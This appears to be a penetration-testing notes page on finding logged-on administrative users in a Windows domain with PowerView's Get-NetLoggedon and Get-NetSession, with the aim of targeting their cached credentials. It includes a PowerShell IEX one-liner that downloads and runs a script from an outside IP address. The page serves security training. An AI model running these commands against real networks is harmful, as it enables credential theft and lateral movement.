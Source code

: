 # Logged on Users

At this points we have a list of all users and groups and can locate Administrative users. In this step we want to find logged-in users with Administrative rights since their credentials will be cached in memory.

Thanks to the following script we can enumerate logged on users.

```bash
/usr/share/windows-resources/powersploit/Recon/PowerView.ps1
```

Inside this script there are two main functions we can use for logged users enumeration:

* **Get-NetLoggedon:** Returns the list of all users logged on to a target workstation (requieres administrative permissions).

* **Get-NetSession:** Returns active user sessions on servers such as fileservers or DCs.

## Usage:

**Step 1:** Import PowerView module:

```bash
#Two ways to do it:
#1, easiest to use:
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.139:8000/PowerView.ps1')

#2 (if PowerView is already in the machine):
Import-Module .\PowerView.ps1
```

**Step 2:** Launch any module against the target workstation or server:

```bash
Get-NetLoggedon -ComputerName $COMPUTERNAME

#The following one should be DC name or a server:
Get-NetSession -ComputerName $COMPUTERNAME
```
